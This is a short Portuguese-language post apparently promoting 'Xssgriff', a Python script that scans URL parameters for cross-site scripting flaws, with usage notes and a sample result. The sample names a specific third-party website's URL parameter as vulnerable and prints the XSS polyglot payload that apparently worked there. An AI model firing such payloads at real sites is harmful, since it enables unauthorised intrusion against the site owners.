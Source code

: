 Xssgriff, script para analizar vulnerabilidade em XSS.

Modo de uso:
python xss.py 
url : teste.com.br/page?parameter=

URL: http://www.koinonia.org.br/tpdigital/detalhes.asp?cod_artigo=161&cod_boletim=9&tipo=
Vulneravel: ';alert(String.fromCharCode(88,83,83))//';alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//--></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>

Ao final, mostrando os payloads vulneraveis.

https://www.facebook.com/JRPENTESTER
